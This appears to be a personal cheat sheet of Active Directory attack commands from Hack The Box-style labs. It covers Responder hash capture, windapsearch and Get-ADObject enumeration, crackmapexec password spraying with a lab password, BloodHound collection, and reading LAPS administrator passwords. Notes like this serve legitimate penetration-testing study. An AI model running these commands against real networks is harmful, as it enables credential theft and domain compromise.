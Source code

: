 #### Notes for active directory:

If a user belongs to the Remote Management USers group we can gain access to the machine through evil-winrm.

##### Command for Responder: 
```
responder -I tun0
```

###### Check if user belongs to the group with windapsearch:
```
./windapsearch.py -U --full --dc-ip 10.10.10.182
```

##### tightvnc write up for decryption:
```
https://github.com/frizb/PasswordDecrypts
```
##### The Get-ADUser cmdlet can be used to list the properties of a user:
```
Get-ADUser -identity s.smith -properties *
```
#### Shows groups user belongs to:
```
whoami /all
```
###### Get Active Directory Objects:
```
Get-ADObject -ldapfilter "(&(isDeleted=TRUE))" -IncludeDeletedObjects
```
##### Include object class only:
```
Get-ADObject -ldapfilter "(&(objectclass=user)(isDeleted=TRUE))" -
IncludeDeletedObjects
```

##### Display filter to select a specific account only:
```
Get-ADObject -ldapfilter "(&(objectclass=user)(DisplayName=TempAdmin)
(isDeleted=TRUE))" -IncludeDeletedObjects -Properties *
```
##### Used to spray passwords for users:
```
crackmapexec smb 10.10.10.248 -u users -p NewIntelligenceCorpUser9876 --continue-on-success
```

##### Used to collect domain information for bloodhound: 
```
bloodhound-python -c ALL -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -d intelligence.htb -dc intelligence.htb -ns 10.10.10.248
```
##### Get LAPS administrtor Password if you have permissions"
```
Get-ADComputer DC01 -property 'ms-mcs-admpwd'
```
